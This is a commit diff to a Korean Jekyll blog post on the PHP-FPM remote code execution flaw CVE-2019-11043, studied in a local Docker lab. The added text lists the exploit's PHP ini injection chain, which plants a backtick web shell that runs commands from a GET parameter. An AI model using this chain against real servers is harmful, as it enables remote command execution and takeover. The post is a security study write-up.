

Before and after one commit to chanbin/chanbin.github.io, a Jekyll site: the page built from _posts/2019-12-19-php-fpm-rce.md, in a window 1280 px wide and 900 px high, scrolled down 5791 px. Shown: the whole window, without its empty margins (0-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
edit post

````diff
--- a/_posts/2019-12-19-php-fpm-rce.md
+++ b/_posts/2019-12-19-php-fpm-rce.md
@@ -38,7 +38,7 @@ PHP-FPM(FastCGI Process Manager)은 동적 페이지를 빠르게 처리하기
 [test@localhost test]$ git pull origin master
 [test@localhost test]$ mv -v CVE-2019-11043/ /home/유저아이디/Desktop/
 [test@localhost test]$ rm -rf test
-[test@localhost CVE-2019-11043]$ sudo docker-compose up -d
+[test@localhost CVE-2019-11043]$ sudo docker-compose up -d # 도커는 계정별 설치. 일반 사용자에 설치했다면 sudo를 빼보자
 ```
 
 ![](https://chanbin.github.io/assets/img/php-fpm/2.png)
@@ -189,4 +189,30 @@ location ~ [^/]\.php(/|$){
 <br>
 <br>
 
+작성중...
+
+공격 체인
+```php
+var chain = []string{
+	"short_open_tag=1", // php태그를 <?php 대신에 <?로 줄여서 사용, 문자열 탐지 우회 가능, 문자열 길이 축소
+	"html_errors=0", // 에러 메세지에 HTML태그 추가여부 설정, off, 성공만 간단히 보려고
+	"include_path=/tmp", // fopen_with_path() 등 다양한 함수가 파일을 찾는 기본 디렉토리
+	"auto_prepend_file=a", // HTML 문서 전후에 추가할 파일설정
+	"log_errors=1", // 로그파일에 에러로그 기록하도록 설정
+	"error_reporting=2", // 에러로그 E_ERROR(2)만 기록하도록 설정
+	"error_log=/tmp/a", // "/tmp/a" 파일에 에러 기록
+	"extension_dir=\"<?=`\"", // 확장모듈 디렉토리 설정
+	"extension=\"$_GET[a]`?>\"", // 해당 디렉토리에서 PHP가 시작할 때, 읽어들일 모듈 설정
+}
+```
+extension_dir = "<?=\`" <br>
+extension = "$\_GET[a]\`?>" <br>
+두개를 더하면 = "<?=\`$\_GET[a]\`?>"
+이 backticks(\`) 문자들로 감싸진 문자열은, shell command로 실행하고, 결과값을 화면에 출력한다.
+
+php.ini파일에서 extension 모듈을 추가하는 방식은, SAPI(서버 어플리케이션 프로그래밍 인터페이스)에서 각 extension의 코드를 로드하고 모듈 초기화 루틴(MINIT)을 호출한다. 이 과정에서 PHP에 extension의 코드가 등록이 되는 것이다.
+
+<br>
+<br>
+
 작성 중...
````
